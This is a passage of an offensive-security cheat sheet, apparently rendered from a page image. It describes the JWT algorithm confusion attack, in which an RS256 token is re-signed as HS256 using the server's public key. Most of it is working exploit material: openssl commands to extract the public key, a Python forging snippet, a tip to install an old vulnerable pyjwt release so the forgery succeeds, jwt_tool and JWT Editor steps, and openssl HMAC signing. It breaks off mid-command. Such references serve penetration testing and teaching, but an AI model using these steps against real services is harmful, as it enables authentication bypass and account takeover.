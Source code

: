 If a server’s code is expecting a token with "alg" set to RSA, but receives a token with "alg" set to HMAC, it may inadvertently use the public key as the HMAC symmetric key when verifying the signature.

Because the public key can sometimes be obtained by the attacker, the attacker can modify the algorithm in the header to HS256 and then use the RSA public key to sign the data. When the applications use the same RSA key pair as their TLS web server: `openssl s_client -connect example.com:443 | openssl x509 -pubkey -noout`

> The algorithm **HS256** uses the secret key to sign and verify each message.
> The algorithm **RS256** uses the private key to sign the message and uses the public key for authentication.

```python
import jwt
public = open('public.pem', 'r').read()
print public
print jwt.encode({"data":"test"}, key=public, algorithm='HS256')
```

:warning: This behavior is fixed in the python library and will return this error `jwt.exceptions.InvalidKeyError: The specified key is an asymmetric key or x509 certificate and should not be used as an HMAC secret.`. You need to install the following version: `pip install pyjwt==0.4.3`.

* Using [ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool)
    ```ps1
    python3 jwt_tool.py JWT_HERE -X k -pk my_public.pem
    ```
* Using [portswigger/JWT Editor](https://portswigger.net/bappstore/26aaa5ded2f74beea19e2ed8345a93dd)
    1. Find the public key, usually in `/jwks.json` or `/.well-known/jwks.json`
    2. Load it in the JWT Editor Keys tab, click `New RSA Key`.
    3. . In the dialog, paste the JWK that you obtained earlier: `{"kty":"RSA","e":"AQAB","use":"sig","kid":"961a...85ce","alg":"RS256","n":"16aflvW6...UGLQ"}`
    4. Select the PEM radio button and copy the resulting PEM key.
    5. Go to the Decoder tab and Base64-encode the PEM.
    6. Go back to the JWT Editor Keys tab and generate a `New Symmetric Key` in JWK format.
    7. Replace the generated value for the k parameter with a Base64-encoded PEM key that you just copied.
    8. Edit the JWT token alg to `HS256` and the data.
    9. Click `Sign` and keep the option: `Don't modify header`

* Manually using the following steps to edit an RS256 JWT token into an HS256
    1. Convert our public key (key.pem) into HEX with this command.

        ```powershell
        $ cat key.pem | xxd -p | tr -d "\\n"
        2d2d2d2d2d424547494e20505[STRIPPED]592d2d2d2d2d0a
        ```

    2. Generate HMAC signature by supplying our public key as ASCII hex and with our token previously edited.

        ```powershell
        $ echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6IjIzIiwidXNlcm5hbWUiOiJ2aXNpdG9yIiwicm9sZSI6IjEifQ" | openssl dgst -sha256 -mac HMAC -macopt hexkey:2d2d2d2d2d424547494e20505[STRIPPED]592d2d2d2d2d0a
